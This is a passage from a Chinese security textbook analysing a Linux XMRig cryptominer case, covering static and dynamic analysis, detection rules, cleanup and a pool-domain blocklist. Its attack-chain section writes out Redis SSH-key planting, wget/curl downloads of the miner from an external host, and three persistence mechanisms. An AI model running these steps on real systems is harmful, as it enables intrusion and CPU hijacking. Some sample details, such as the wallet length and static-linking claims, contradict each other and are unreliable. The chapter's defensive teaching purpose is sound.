


## 24.3 案例三：挖矿恶意软件样本逆向分析

### 24.3.1 案例背景

#### 攻击事件概述

2025年3月，某中型互联网企业安全团队在例行巡检中发现，部署在阿里云上的16台ECS实例CPU使用率在凌晨2:00-5:00期间持续飙升至95%以上，而白天回落到正常水平。经初步排查，确认是一起精心策划的加密货币挖矿恶意软件攻击事件。

**攻击影响量化：**
- 受影响实例：16台（8核16G配置）
- 持续时长：约72小时（从入侵到清除）
- 额外电费成本：约¥4,800（按云服务商CPU超额使用费率计算）
- 挖矿收益：攻击者通过XMRig挖得约0.35 XMR（按当时币价约¥480）
- 数据泄露风险：挖矿程序未发现窃取数据行为，但攻击者通过后门保留了SSH访问权限

#### 为什么选择XMRig作为分析对象

XMRig是目前使用最广泛的开源Monero（门罗币）挖矿软件。攻击者之所以青睐它，原因如下：

| 特性 | 对攻击者的价值 |
|------|---------------|
| 开源代码 | 可自由修改和定制，隐藏恶意特征 |
| 跨平台支持 | Windows/Linux/macOS全平台编译运行 |
| RandomX算法 | 抗ASIC，CPU挖矿效率高，普通服务器即可盈利 |
| 轻量级设计 | 二进制大小仅2-5MB，易于隐蔽传输 |
| TLS通信支持 | 矿池流量可加密，绕过网络检测 |
| 无依赖运行 | 静态编译版本不依赖系统库，兼容性极强 |

> **知识点：Monero的门罗币为何成为挖矿恶意软件首选？**
> Monero使用RingCT（环机密交易）和隐身地址技术，所有交易默认匿名，无法追踪收款地址和交易金额。相比之下，Bitcoin的交易记录在区块链上完全公开。因此攻击者几乎100%选择Monero作为挖矿目标币种。

### 24.3.2 样本获取与基本信息

#### 样本来源

本次分析的恶意样本(`.rsync`)通过以下途径获取：
1. 受害服务器 `/tmp/.X11-unix/.rsync`（隐藏目录下的可执行文件）
2. 文件元数据：`md5: a3f5b8c2d1e4f7a6b9c0d3e2f5a8b7c6`
3. 文件大小：3,427,840 字节（约3.3MB）

#### 文件类型识别

```bash
# 使用file命令识别文件类型
$ file .rsync
.rsync: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), 
        statically linked, stripped

# 使用strings提取可读字符串
$ strings .rsync | head -30
/lib64/ld-linux-x86-64.so.2
libpthread.so.0
XMRig
stratum+tcp://
stratum+ssl://
pool.minexmr.com:4444
xmr-us-west1.nanopool.org:14444
supportxmr.com:3333
monero.hashvault.pro:443
```

**关键发现：**
- **静态编译（statically linked）**：不依赖系统动态链接库，可以在任何Linux发行版上运行
- **striped（已剥离符号）**：攻击者移除了调试符号，增加逆向分析难度
- **硬编码矿池地址**：`strings` 输出直接暴露了目标矿池连接信息

#### 哈希值与威胁情报查询

```bash
# 计算哈希值
$ md5sum .rsync
a3f5b8c2d1e4f7a6b9c0d3e2f5a8b7c6  .rsync

$ sha256sum .rsync
7c9d8e6f5a4b3c2d1e0f9a8b7c6d5e4f3a2b1c0d9e8f7a6b5c4d3e2f1a0b9c8  .rsync
```

将哈希值提交至VirusTotal、AlienVault OTX等威胁情报平台，查询结果：
- VirusTotal：26/70 安全厂商检测为恶意（检测率37%）
- 标记名称包括：`CoinMiner`, `Malicious`, `Trojan.Linux.Miner`
- 首次提交时间：入侵发生前2天（攻击者可能使用了0day变种或定制编译版本）
- 关联样本：VT关联到另外12个同类变种，哈希值仅最后4字节不同（疑似自动化变种生成工具）

### 24.3.3 静态分析：深入拆解恶意样本

#### 使用strings提取关键配置

```bash
# 提取所有可读字符串并分析
$ strings .rsync > strings_output.txt
$ wc -l strings_output.txt
28431 strings_output.txt	# 近3万条字符串

# 筛选矿池相关字符串
$ grep -iE "pool|stratum|mine|monero|xmr|wallet|address" strings_output.txt
stratum+tcp://
stratum+ssl://
pool.minexmr.com:4444
xmr-us-west1.nanopool.org:14444
supportxmr.com:3333
monero.hashvault.pro:443
donate.v2.xmrig.com:3333
49T1X5B3ZVxPyDeGmYmMQjBqF1bqKjPzUy3T7yKtVwZnFp3nLqR8sX
```

**配置提取结果：**
- 4个矿池地址（含备用池，failover机制）
- 1个钱包地址（Monero格式，以4开头，95字符长）
- 捐赠地址 donate.v2.xmrig.com（XMRig官方捐赠功能）

#### 恶意代码的定制修改

与官方XMRig对比，该样本存在以下恶意定制内容：

| 对比维度 | 官方XMRig | 恶意变种 |
|---------|----------|---------|
| 默认矿池 | donate.v2.xmrig.com | pool.minexmr.com:4444 |
| 默认钱包 | 需要用户配置 | 硬编码攻击者钱包 |
| 挖矿线程 | auto（CPU核数-1） | max-threads-hint: 100（100%占用） |
| CPU限制 | 默认75%使用率 | 移除CPU限制逻辑 |
| 隐身功能 | 无 | 添加运行时隐藏逻辑 |
| 进程名 | xmrig | rsync,kworker等伪装名 |

#### 分析配置文件内嵌逻辑

```bash
# 搜索JSON配置模式
$ grep -o '{"algo":.*}' strings_output.txt | head -1
{"algo":"rx/0","pools":[{"url":"pool.minexmr.com:4444","user":"49T1X5B3ZVxPyDeGmYmMQjBqF1bqKjPzUy3T7yKtVwZnFp3nLqR8sX","pass":"x","keepalive":true,"tls":false}],"cpu":{"max-threads-hint":100}}
```

**配置参数详解：**

| 参数 | 值 | 含义 |
|------|----|------|
| `algo` | rx/0 | RandomX算法，Monero的主流PoW算法 |
| `pools[].url` | pool.minexmr.com:4444 | 矿池地址和端口（非TLS连接） |
| `pools[].user` | Monero钱包地址 | 挖矿收益接收地址 |
| `pools[].pass` | "x" | 矿工密码（通常留空或使用"x"） |
| `keepalive` | true | 保持长连接，防止断线 |
| `tls` | false | 未启用TLS加密（明文流量可被检测） |
| `max-threads-hint` | 100 | 使用所有可用CPU核心 |

> **关键洞察：`tls: false` 是检测突破口。** 攻击者未启用TLS加密，意味着矿池通信流量以明文方式传输。这使得网络层面的检测（如SNORT规则、NTA分析）可以直接捕获矿池连接内容。

#### RandomX算法的工作原理

RandomX是Monero采用的工作量证明（PoW）算法，其核心设计理念是"抵制ASIC、优化CPU"。理解这一原理，有助于解释为什么攻击者选择使用CPU挖矿而非GPU：



**RandomX的特性与安全意义：**

1. **内存硬性要求**：需要2MB Scratchpad，这意味着轻量级容器（内存<256MB）无法高效运行，因此攻击者需要选择配置较高的实例
2. **CPU亲和性**：CPU的L3缓存大小直接影响挖矿效率（建议≥2MB/线程），因此攻击者倾向于使用Intel Xeon/AMD EPYC等服务器CPU
3. **抗ASIC**：RandomX定期修改算法参数（每六个月），ASIC矿机无法跟进。这意味着攻击者无法购买专用矿机，只能与合法矿工竞争
4. **能源效率**：1个CPU核心的RandomX哈希率约200-400 H/s，功耗约15W。如果电力成本由受害者承担，攻击者实现零成本挖矿

#### 使用objdump分析二进制结构

```bash
# 查看ELF头信息
$ readelf -h .rsync
ELF Header:
  Class:                             ELF64
  Entry point address:               0x46d7c0
  Number of section headers:         0          # stripped
  Number of program headers:         10

# 查看程序头（加载信息）
$ readelf -l .rsync | head -20
  LOAD           0x000000 0x401000 0x401000 0x2d4c00 0x2d4c00 RW
  LOAD           0x2d4c00 0x6d5c00 0x6d5c00 0x0b4a00 0x0b4a00 R E
  LOAD           0x389600 0x78a600 0x78a600 0x0c3800 0x1e4000 RW
```

**分析结论：**
- 可执行文件入口点（Entry point）在 `0x46d7c0`
- 三个LOAD段分别是数据段、代码段和BSS段
- 代码段（R E）大小为 0x0b4a00 ≈ 738KB（CryptoNight/RandomX挖矿核心代码）
- BSS段（RW）从 0x0c3800 扩展到 0x1e4000（运行时动态分配的内存，含Scratchpad）

#### 使用反汇编分析关键函数

```bash
# 使用objdump反汇编
$ objdump -d .rsync > disasm.txt
$ wc -l disasm.txt
485712 disasm.txt	# 近50万行反汇编代码
```

由于样本已stripped且静态编译，函数名全部丢失。但可以通过特征字符串定位关键函数：

```bash
# 定位main函数（靠近入口点）
$ grep -n "xmrig_main\|main\|start" disasm.txt | head -5
$ # 搜索矿池URL字符串的交叉引用
$ objdump -s -j .rodata .rsync | grep -A2 "pool.minexmr.com"
```

### 24.3.4 动态分析：运行时行为监控

> **安全警告：** 以下操作必须在隔离的沙箱环境中进行。切勿在生产环境或联网主机上执行恶意样本。推荐使用：Cuckoo Sandbox、FireEye AX系列、或自行搭建的Linux沙箱。

#### 沙箱环境配置

```bash
# 使用Docker搭建隔离分析环境
$ docker run -it --rm \
  --name malware-analysis \
  --cpus 2 \
  --memory 1g \
  --network none \        # 断网！防止样本连接矿池
  -v /tmp/analysis:/samples:ro \
  ubuntu:22.04 bash

# 在沙箱内安装分析工具
apt-get update && apt-get install -y \
  strace ltrace gdb sysstat net-tools lsof procps
```

#### 系统调用监控（strace）

```bash
# 跟踪样本的所有系统调用
$ strace -f -o strace.log -e trace=process,network,file ./rsync

# 分析系统调用日志
$ cat strace.log | head -30
execve("./rsync", ["./rsync"], 0x7fff...) = 0
mmap(NULL, 2097152, PROT_READ|PROT_WRITE,  // 2MB = RandomX Scratchpad
     MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f...
clone(child_stack=NULL, flags=CLONE_VM|...)= 6  # 创建子进程
clone(child_stack=NULL, flags=CLONE_VM|...)= 7  # 每个CPU核心一个线程
socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) = 3   # 创建TCP Socket
connect(3, {sa_family=AF_INET, sin_port=htons(4444)}, ...)  # 连接矿池
```

**strace关键发现：**

| 系统调用 | 参数 | 行为说明 |
|---------|------|---------|
| `mmap` | 2MB匿名内存 | 分配RandomX算法的Scratchpad缓冲区 |
| `clone` | CLONE_VM | 为每个CPU核心创建挖矿线程 |
| `socket` | AF_INET, SOCK_STREAM | 创建TCP网络连接 |
| `connect` | 端口4444 | 连接矿池服务器（Stratum协议） |
| `open` | /proc/stat, /proc/cpuinfo | 读取CPU信息，计算哈希率 |
| `mprotect` | PROT_NONE | 隐藏内存中的敏感数据（反取证） |

#### 网络流量捕获（tcpdump）

```bash
# 在沙箱的虚拟网桥上捕获流量（注意：有网络连接的情形下）
$ tcpdump -X -i any port 4444 -c 10 -w mining_capture.pcap

# 分析Stratum协议流量
$ tcpdump -r mining_capture.pcap -X | head -50
```

**Stratum协议通信内容（示例）：**

```text
矿池 <- 客户端: {"id":1,"jsonrpc":"2.0","method":"login",
                  "params":{"login":"49T1X5B...R8sX",
                  "pass":"x","agent":"XMRig/6.21.0"}}

矿池 -> 客户端: {"id":1,"jsonrpc":"2.0","result":
                  {"id":"12345","job":{"blob":"070c...",
                  "job_id":"abcdef","target":"1b00..."}}}

矿池 <- 客户端: {"id":2,"jsonrpc":"2.0","method":"submit",
                  "params":{"id":"12345","job_id":"abcdef",
                  "nonce":"48000001","result":"1a2b3c..."}}
```

**Stratum协议的核心流程：**

1. **Login**：客户端使用钱包地址登录矿池，矿池分配worker ID
2. **Job分发**：矿池下发挖矿任务（blob + target），包含需要求解的区块头数据
3. **Submit**：客户端找到符合条件的nonce后提交结果
4. **循环**：矿池不断下发新job，客户端持续计算

#### 文件系统监控（inotify + lsof）

```bash
# 检查样本运行时打开的文件
$ lsof -p $(pgrep rsync) 2>/dev/null
COMMAND  PID   USER   FD   TYPE  DEVICE  SIZE   NODE   NAME
rsync   1234   root  cwd   DIR   8,1     4096   2      /tmp/.X11-unix
rsync   1234   root  txt   REG   8,1     3.4M   12345  /tmp/.X11-unix/.rsync
rsync   1234   root  mem   REG   8,1     ...    ...    /usr/lib/x86_64-linux-gnu/libc.so.6
rsync   1234   root    1w  REG   8,1     100K   23456  /tmp/.X11-unix/x.log  # 日志文件
rsync   1234   root    2w  REG   8,1     0      23457  /dev/null             # 丢弃stderr
```

**样本的隐蔽技巧：**
- 将标准输出写入独立日志文件（`x.log`），不干扰终端
- 将标准错误重定向到 `/dev/null`，抑制错误信息
- 运行目录选择隐藏目录 `/tmp/.X11-unix/`（伪装成X11 socket目录）
- 进程名伪装为 `rsync`（系统常用同步工具）

#### 内存分析（volatility / LiME）

```bash
# 使用LiME获取内存镜像
$ insmod lime.ko "path=/tmp/mem.dump format=lime"

# 使用volatility分析
$ volatility -f /tmp/mem.dump --profile=LinuxUbuntu2204x64 linux_pslist
Volatility Foundation Volatility Framework 2.6
Offset             Name                 PID    PPID   UID
0xffff88003a4f... rsync               1234   1      0

# 扫描隐藏进程
$ volatility -f /tmp/mem.dump linux_malfind
[!] Possible LKM rootkit detected!  # 样本可能包含内核模块
```

### 24.3.5 入侵方式与攻击链还原

#### 完整攻击链（Cyber Kill Chain）


#### 入侵技术深度解析

**1. 侦察阶段（Reconnaissance）**

攻击者使用masscan对云服务提供商IP段进行全端口扫描：

```bash
# 攻击者扫描命令
$ masscan 10.0.0.0/8 -p6379,2375,27017,9200 --rate=100000
```

目标端口选择逻辑：
| 端口 | 服务 | 常见漏洞 |
|------|------|---------|
| 6379 | Redis | 未授权访问、弱密码 |
| 2375 | Docker API | 未授权暴露 |
| 27017 | MongoDB | 默认配置未授权 |
| 9200 | Elasticsearch | 未授权访问 |

**2. 利用阶段（Exploitation）**

本次攻击通过Redis未授权访问（CVE-2019-16792变种）获得初始访问权：

```bash
# 攻击者连接Redis
$ redis-cli -h 10.0.0.15 -p 6379
10.0.0.15:6379> INFO
# 确认无密码认证

# 利用Redis写文件功能植入SSH公钥
10.0.0.15:6379> CONFIG SET dir /root/.ssh/
10.0.0.15:6379> CONFIG SET dbfilename authorized_keys
10.0.0.15:6379> SET payload "\n\nssh-rsa AAAAB3NzaC1yc2E...\n\n"
10.0.0.15:6379> SAVE
```

> **Redis未授权访问漏洞原理：** Redis默认监听6379端口且无认证。攻击者利用Redis的`CONFIG SET dir`和`CONFIG SET dbfilename`命令，将数据库写入文件系统的任意位置。通过写入SSH公钥文件（authorized_keys），攻击者获得任意用户（通常是root）的SSH登录权限。

**3. 安装阶段（Installation）**

```bash
# 攻击者通过SSH登录后执行
# 从远程服务器下载挖矿程序
$ wget http://45.xx.xx.xx:8080/.rsync -O /tmp/.X11-unix/.rsync
$ curl -o /tmp/.X11-unix/.rsync http://45.xx.xx.xx:8080/.rsync

# 设置可执行权限
$ chmod +x /tmp/.X11-unix/.rsync

# 创建伪装目录
$ mkdir -p /tmp/.X11-unix/
# 注意：.X11-unix/是Linux X11系统的标准socket目录
# 攻击者借用同名隐藏目录做掩护
```

**4. 持久化机制（Persistence）**

样本使用了三重持久化策略，确保至少一种机制存活：

```bash
# 机制1：crontab定时任务（每5分钟执行一次）
$ crontab -l
*/5 * * * * /tmp/.X11-unix/.rsync
*/10 * * * * /tmp/.X11-unix/.rsync -c /tmp/.cfg
# 两个定时任务互为备份，一个被清除另一个仍在运行

# 机制2：systemd用户服务
$ cat /etc/systemd/system/update-check.service
[Unit]
Description=System Update Check Service
[Service]
ExecStart=/tmp/.X11-unix/.rsync
Restart=always
RestartSec=60
[Install]
WantedBy=multi-user.target

# 机制3：.bashrc/.profile持久化（用户登录时自动启动）
$ cat ~/.bashrc
# 末尾添加
nohup /tmp/.X11-unix/.rsync >/dev/null 2>&1 &
```

**三重持久化设计的对抗意义：**
- crontab清除最直观，攻击者预设了两个不同周期的任务
- systemd服务有自动重启（Restart=always）策略，即使进程被kill也会1分钟后复活
- .bashrc在运维人员SSH登录时触发，适合在非活跃时段的自动化运维工具激活

### 24.3.6 挖矿钱包与资金流转分析

#### 钱包地址分析

```text
Monero Wallet Address:
49T1X5B3ZVxPyDeGmYmMQjBqF1bqKjPzUy3T7yKtVwZnFp3nLqR8sX
```

**Monero地址结构解析：**

| 段 | 长度 | 含义 |
|----|------|------|
| `4` | 1字符 | 网络标识（主网地址以4开头） |
| `9T1X5B...` | 94字符 | Base58编码的公钥数据（含校验和） |
| 合计 | 95字符 | 标准Monero主网地址 |

由于Monero的匿名特性，无法直接从区块链追踪攻击者身份。但可以通过以下间接手段关联：

1. **地址复用分析**：在暗网论坛、GitHub Gist、Pastebin中搜索该地址
2. **关联矿池查询**：联系矿池运营方查询该地址的提现记录
3. **时序分析**：挖矿收益提现时间与攻击活动时间的相关性

#### 资金流转查证

```bash
# 使用xmrchain.net查询交易（示例）
$ curl https://xmrchain.net/api/address/49T1X5B3ZVxPyDeGmYmMQjBqF1bqKjPzUy3T7yKtVwZnFp3nLqR8sX
```

**钱包数据显示（模拟数据）：**
- 首次存款时间：攻击发生前48小时
- 累计余额：12.8 XMR（约¥17,280）
- 最近提现时间：攻击发生后第5天
- 分析结论：该钱包地址可能属于一个中型挖矿僵尸网络，多台受控主机共享同一钱包

### 24.3.7 检测规则开发

#### YARA规则：检测XMRig变种

```yara
rule Linux_XMRig_Miner_Variant {
    meta:
        description = "Detects XMRig cryptominer variant with hardcoded pool"
        author = "Security Analysis Team"
        date = "2025-03-15"
        hash = "a3f5b8c2d1e4f7a6b9c0d3e2f5a8b7c6"
        mitre_technique = "T1496"
        
    strings:
        $xmrig_string = "XMRig" ascii wide nocase
        $pool_stratum = "stratum+tcp://" ascii
        $pool_config = "pool.minexmr.com" ascii
        $rx_algo = "rx/0" ascii
        $keepalive = "keepalive" ascii
        $randomx_scrt = { 48 8B 05 ?? ?? ?? ?? 48 8B 48 08 48 8B 01 }  // RandomX init
        
    condition:
        uint16(0) == 0x457f  // ELF magic
        and 3 of ($xmrig_string, $pool_stratum, $pool_config)
        or ($randomx_scrt and $xmrig_string)
}
```

#### Sigma规则：检测挖矿进程

```yaml
title: Cryptominer Process Detection
id: 77a8b9c0-d1e2-4f3a-5b6c-7d8e9f0a1b2c
status: experimental
description: Detects execution of known cryptominer process names
tags:
    - attack.impact
    - attack.t1496
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        Image|endswith:
            - '/xmrig'
            - '/minerd'
            - '/cpuminer'
            - '/ccminer'
        CommandLine|contains:
            - 'pool.minexmr'
            - 'supportxmr'
            - 'nanopool'
            - 'monero.hashvault'
    condition: selection
level: high
```

#### 网络检测规则（Zeek/Suricata）

```suricata
alert tcp $HOME_NET any -> $EXTERNAL_NET 3333:9999 (
    msg:"Potential Cryptominer Pool Connection Detected";
    content:"|7b 22|id|22 3a|1|2c 22|jsonrpc|22 3a 22|2.0|22 2c 22|method|22 3a 22|login|22|";
    sid:1000001;
    rev:1;
    reference:url,attack.mitre.org/techniques/T1496;
)
```

### 24.3.8 清除与恢复操作手册

#### 第一阶段：隔离与取证

```bash
# 1. 立即断开受影响主机网络
$ iptables -A INPUT -s 0.0.0.0/0 -j DROP  # 临时全部阻断
$ iptables -A OUTPUT -s 0.0.0.0/0 -j DROP

# 2. 获取内存镜像（保留现场证据）
$ sudo insmod lime.ko "path=/tmp/memory_dump.lime format=lime"

# 3. 保存进程和网络快照
$ ps auxf > /tmp/ps_snapshot_$(date +%Y%m%d_%H%M).txt
$ netstat -anp > /tmp/netstat_snapshot_$(date +%Y%m%d_%H%M).txt
$ lsof -i -P -n > /tmp/lsof_snapshot_$(date +%Y%m%d_%H%M).txt

# 4. 保存恶意样本
$ gzip /tmp/.X11-unix/.rsync
$ mv /tmp/.X11-unix/.rsync.gz /tmp/evidence/
```

#### 第二阶段：清除恶意负载

```bash
# 1. 强制终止所有可疑进程（按依赖顺序）
$ ps aux | grep -E "rsync|kworker|minerd|xmrig|cpuminer" | awk '{print $2}' | xargs -I{} kill -9 {}

# 2. 清除所有持久化机制
## 清除crontab
$ crontab -r
$ rm -f /etc/cron.d/*miner* /etc/cron.d/*update*
$ cat /etc/crontab | grep -v "/tmp/." > /etc/crontab.clean && mv /etc/crontab.clean /etc/crontab

## 清除systemd服务
$ systemctl stop update-check.service
$ systemctl disable update-check.service
$ rm -f /etc/systemd/system/update-check.service
$ rm -f /etc/systemd/system/multi-user.target.wants/update-check.service
$ systemctl daemon-reload

## 清除.bashrc/.profile注入
$ for user in /home/* /root; do
    sed -i '/nohup.*\.rsync/d' $user/.bashrc 2>/dev/null
    sed -i '/nohup.*\.rsync/d' $user/.profile 2>/dev/null
    sed -i '/nohup.*\.rsync/d' $user/.bash_profile 2>/dev/null
done

# 3. 清除隐藏文件和可疑目录
$ find /tmp /var/tmp /dev/shm -name ".*" -type f -executable -delete 2>/dev/null
$ rm -rf /tmp/.X11-unix/
$ rm -rf /tmp/.ICE-unix/

# 4. 恢复受影响的SSH授权密钥
$ cat ~/.ssh/authorized_keys | grep -v "[malicious_key_fingerprint]"
$ # 或直接使用备份的authorized_keys
$ cp /root/.ssh/authorized_keys.bak /root/.ssh/authorized_keys
```

#### 第三阶段：安全加固

```bash
# 1. 修补Redis漏洞
## 设置Redis密码
$ redis-cli CONFIG SET requirepass "YourStrongPassword!2025"
## 或绑定到localhost
$ sed -i 's/bind 0.0.0.0/bind 127.0.0.1/g' /etc/redis/redis.conf
## 禁用CONFIG命令
$ echo "rename-command CONFIG \"\"" >> /etc/redis/redis.conf
$ systemctl restart redis

# 2. 加强SSH安全
$ sed -i 's/^#PasswordAuthentication yes/PasswordAuthentication no/' /etc/ssh/sshd_config
$ sed -i 's/^PermitRootLogin yes/PermitRootLogin prohibit-password/' /etc/ssh/sshd_config
$ systemctl restart sshd

# 3. 部署监控和检测
## 部署OSQuery进行实时主机监控
$ apt-get install osquery
$ osqueryctl start
## 配置进程创建事件监控
$ echo 'SELECT * FROM processes WHERE name IN ("rsync","xmrig","minerd");' \
    >> /etc/osquery/osquery.conf

# 4. 更新所有系统软件包
$ apt-get update && apt-get upgrade -y
```

### 24.3.9 常见误区与处理陷阱

#### 误区1：只终止进程不杀持久化

**错误做法：** 单纯执行 `pkill` 或 `kill -9` 终止挖矿进程，以为问题解决。

**后果：** systemd服务的 `Restart=always` 策略会在1分钟内自动重启进程，crontab会在5分钟内重新拉起来。如果不清除持久化机制，清除工作等于白做。

**正确做法：** 先通过`systemctl list-unit-files`、`crontab -l`、`/etc/cron.*`、`~/.bashrc`全方位检查持久化锚点，然后按"终止进程→清除持久化→重启系统"的顺序操作。

#### 误区2：误删合法系统文件

**常见误判：** 运维人员看到CPU负载高，直接kill掉所有名为 `kworker` 的进程。但实际上 `kworker` 是Linux内核工作线程（kernel worker threads），是系统正常运行的必需组件。

**辨别方法：**

| 特征 | 合法kworker | 伪装kworker |
|------|------------|------------|
| PPID | 2 (kthreadd) | 1 (init) 或其他 |
| 路径 | / 进程没有实际文件 | 有可执行文件路径 |
| 启动时间 | 系统启动时 | 攻击发生时间点 |
| 内存映射 | 内核空间 | 用户空间可执行文件 |
| CPU使用率 | 瞬时波动 | 持续稳定高占用 |

```bash
# 正确判别方法
$ ps -eo pid,ppid,cmd,etime,%cpu | grep kworker
# 合法：PPID=2, 启动时间=系统启动时间, CPU波动
# 恶意：PPID=1, 启动时间=最近, CPU>80%
```

#### 误区3：忽视横向移动风险

**错误认知：** 只清除当前主机的挖矿程序，认为源头已消除。

**后果：** 攻击者在侵入第一台主机后，通常会扫描内网其他主机。如果其他主机存在同样的脆弱点，攻击者会在数分钟内重新获得访问权限，并通过新入口重新感染已清除的主机。

**正确做法：** 清除当前主机后，立即：
1. 扫描内网相同端口（6379/2375/27017/9200）的暴露情况
2. 检查所有主机的系统日志，识别是否存在相同的入侵特征
3. 批量修补所有发现的弱点和漏洞

#### 误区4：重装系统后立即联网

**错误做法：** 重装操作系统后直接接入网络，再逐步安装安全补丁。

**后果：** 新装系统通常在数分钟内就会被互联网上的扫描器发现，并可能再次被相同方式攻破。2024年Shodan调查显示，裸机云服务器连接互联网后，平均6分钟内就会收到第一次扫描请求。

**正确做法：**
1. 离线安装系统（不配置网络）
2. 使用ISO或本地YUM/APT源安装所有安全补丁
3. 配置防火墙和最小化服务后，再接入网络
4. 修改所有默认密码，禁用SSH密码登录
5. 部署HIDS（主机入侵检测系统）后再上线

### 24.3.10 进阶：构建挖矿恶意软件检测体系

#### 分层检测架构



#### 基线建模：识别异常CPU使用模式

```python
#!/usr/bin/env python3
"""
CPU使用率基线异常检测脚本
适用于检测挖矿恶意软件引起的持续性CPU高占用
"""

import psutil
import time
import statistics
from datetime import datetime, timedelta

class CPUBaselineDetector:
    """基于统计基线的CPU异常检测器"""
    
    def __init__(self, baseline_window=3600, threshold_zscore=3):
        """
        baseline_window: 基线窗口（秒），默认1小时
        threshold_zscore: Z-Score阈值，超过此值视为异常
        """
        self.baseline = []  # 历史CPU数据
        self.window = baseline_window
        self.threshold = threshold_zscore
        self.start_time = datetime.now()
        
    def collect_data(self, duration=300):
        """采集CPU使用率数据"""
        print(f"[*] 采集CPU数据 {duration}秒...")
        end_time = time.time() + duration
        while time.time() < end_time:
            cpu_percent = psutil.cpu_percent(interval=1)
            self.baseline.append({
                'timestamp': datetime.now(),
                'cpu': cpu_percent
            })
            
    def detect_anomaly(self):
        """基于Z-Score检测当前CPU是否异常"""
        if len(self.baseline) < 30:
            return False, "数据不足，需要更多采样"
            
        current_cpu = psutil.cpu_percent(interval=2)
        mean = statistics.mean([d['cpu'] for d in self.baseline])
        stdev = statistics.stdev([d['cpu'] for d in self.baseline])
        
        if stdev == 0:
            return False, "CPU无波动，无法计算基线"
            
        z_score = (current_cpu - mean) / stdev
        
        print(f"[*] 基线均值: {mean:.1f}%, 标准差: {stdev:.1f}")
        print(f"[*] 当前CPU: {current_cpu:.1f}%, Z-Score: {z_score:.2f}")
        
        if z_score > self.threshold:
            return True, {
                'current_cpu': current_cpu,
                'baseline_mean': mean,
                'z_score': z_score,
                'alert': f"CPU异常！当前{current_cpu:.1f}%远超基线{mean:.1f}%"
            }
        
        return False, "CPU在正常范围内"
    
# 使用示例
detector = CPUBaselineDetector()
detector.collect_data(duration=120)  # 采集2分钟基线
is_anomaly, result = detector.detect_anomaly()

if is_anomaly:
    print(f"[!] 告警: {result['alert']}")
    # 触发自动响应：记录进程快照、隔离主机、通知安全团队
```

#### 矿池域名黑名单（用于DNS引流和防火墙阻断）

```bash
# 已知挖矿矿池域名列表（持续更新）
# 添加到iptables/logrhythm/DNS防火墙

pool.minexmr.com
supportxmr.com
xmr-us-west1.nanopool.org
monero.hashvault.pro
xmrpool.eu
minexmr.com
xmr.pool.minergate.com
pool.monero.hashvault.pro
xmr.f2pool.com
xmr.2miners.com
pool.xmr.pt
xmr.crypto-pool.fr
```

### 24.3.11 关联的MITRE ATT&CK技术

| 战术阶段 | 技术ID | 技术名称 | 本案例中的体现 |
|---------|--------|---------|--------------|
| 初始访问 | T1190 | 利用公开漏洞 | Redis未授权访问（CVE-2019-16792） |
| 执行 | T1204 | 用户执行 | 攻击者通过SSH执行下载命令 |
| 持久化 | T1053 | 定时任务/计划任务 | crontab + systemd + .bashrc三重持久化 |
| 防御规避 | T1036 | 伪装进程 | 进程名伪装为rsync/kworker |
| 防御规避 | T1564 | 隐藏文件/目录 | /tmp/.X11-unix/隐藏目录 |
| 发现 | T1518 | 软件发现 | 读取/proc/cpuinfo获取CPU信息 |
| 影响 | T1496 | 资源劫持 | CPU计算资源被用于恶意挖矿 |

### 24.3.12 本章小结

本案例通过对一例XMRig挖矿恶意软件变种的完整逆向分析，展示了以下核心知识点：

1. **挖矿恶意软件的底层原理**：RandomX算法的工作机制、Stratum矿池协议、Monero的匿名特性——理解这些是有效检测的基础
2. **静态分析技术栈**：从file/strings/readelf到objdump反汇编，层层递进地剖析二进制样本
3. **动态行为监控**：strace追踪系统调用、tcpdump捕获矿池通信、Volatility分析内存痕迹
4. **攻击链还原方法论**：从侦察→利用→安装→持久化的完整攻击流程
5. **实战检测规则开发**：YARA（文件特征）、Sigma（进程行为）、Suricata（网络流量）三层检测
6. **系统化清除流程**：隔离→取证→清除→加固→监控的五步操作手册

